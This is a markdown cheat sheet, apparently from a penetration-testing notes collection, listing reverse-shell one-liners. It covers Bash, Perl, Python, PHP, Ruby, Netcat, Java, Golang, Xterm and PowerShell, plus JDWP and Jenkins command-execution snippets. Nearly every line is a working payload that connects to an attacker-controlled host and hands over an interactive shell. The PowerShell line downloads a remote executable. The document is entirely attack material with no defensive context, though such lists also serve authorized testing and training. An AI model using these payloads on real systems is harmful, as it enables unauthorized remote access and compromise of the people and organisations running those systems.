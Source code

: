 ```yaml
---
description: Common reverse shells
---
```


# Reverse Shells One-Liners

### Bash 

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` 

### Perl 

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` 

### URL-Encoded Perl: Linux 

`echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew` 

### Perl \(Windows\): 

`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` 

`perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` 

### Python 

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` 

### Python v6

`python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'`

### PHP 

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` 

### Ruby 

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'` 

### Netcat 

`nc -e /bin/sh ATTACKING-IP 80`   
`/bin/sh | nc ATTACKING-IP 80`   
`rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p` 

### Netcat without -e \#1 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f` 

### Netcat without -e \#2 

`nc localhost 443 | /bin/sh | nc localhost 444`   
or   
`telnet localhost 443 | /bin/sh | telnet localhost 444` 

### Java 

`r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[]); p.waitFor();` 

### Xterm 

`xterm -display 10.0.0.1:1` 

### Java Debug Wire Protocol \(JDWP\) RCE 

\``print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())` 

### PowerShell 

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"` 

### Jenkis Server 

`println "cmd /c whoami".execute().text` 

### Golang

`echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go`

